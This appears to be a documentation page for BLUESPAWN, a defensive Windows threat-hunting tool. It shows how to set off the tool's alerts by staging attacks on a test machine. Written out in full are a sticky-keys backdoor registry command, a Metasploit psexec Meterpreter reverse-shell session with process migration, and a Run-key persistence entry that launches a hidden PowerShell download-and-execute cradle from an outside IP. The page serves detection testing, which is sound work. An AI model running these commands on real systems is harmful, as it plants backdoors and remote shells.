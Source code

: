 Examples of BLUESPWAN in Action
===============================

The below sections will outline a variety of commands/methods that can be used to get BLUESPAWN to trigger an alert to showcase how the program operates.

**NOTE:** Windows Defender or other security products running on the system may block the malware even more BLUESPAWN can pick it up. We recommend only running these tests on a clean, **NON-PRODUCTION** system, ideally with no other anti-virus if you are evaluating/demonstrating BLUESPAWN.

Monitor Mode
------------

You can launch monitor mode in one window and leave it open while performing any of the below attacks to generate alerts that was as well.

.. code-block:: cmd

   .\BLUESPAWN-client-x64.exe --monitor -a Normal --react=log --log=console,xml

T1546 - Accessibility Features
------------------------------

Install a sticky keys backdoor

.. code-block:: cmd

   reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "c:\windows\system32\cmd.exe"

Perform a Hunt with BLUESPAWN for T1546

.. code-block:: cmd

   .\BLUESPAWN-client-x64.exe --hunt -a Normal --hunts=T1546 --react=log,remove-value --log=console,xml

T1055 - Process Injection
-------------------------

Launch a Meterpreter beacon on the target, for example, using PsExec with valid credentials

.. code-block:: bash

   sudo msfconsole
   use exploit/windows/smb/psexec
   set RHOSTS 172.17.50.136
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST YOUR_IP
   set LPORT 4444
   exploit

   <spawning of a meterpreter beacon>

   ps # find the PID of a target process to migrate to such as explorer.exe
   migrate PID

Perform a Hunt with BLUESPAWN for T1055

.. code-block:: cmd

   .\BLUESPAWN-client-x64.exe --hunt -a Normal --hunts=T1055 --react=log,carve-memory --log=console,xml

T1547 - Registry Run Keys / Startup Folder
------------------------------------------

Configure a malicious run key

.. code-block:: cmd

   reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Payload /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://172.20.243.5:80/a'))\"" /f

Perform a Hunt with BLUESPAWN for T1547 

.. code-block:: cmd

   .\BLUESPAWN-client-x64.exe --hunt -a Normal --hunts=T1547 --react=log,remove-value --log=console,xml

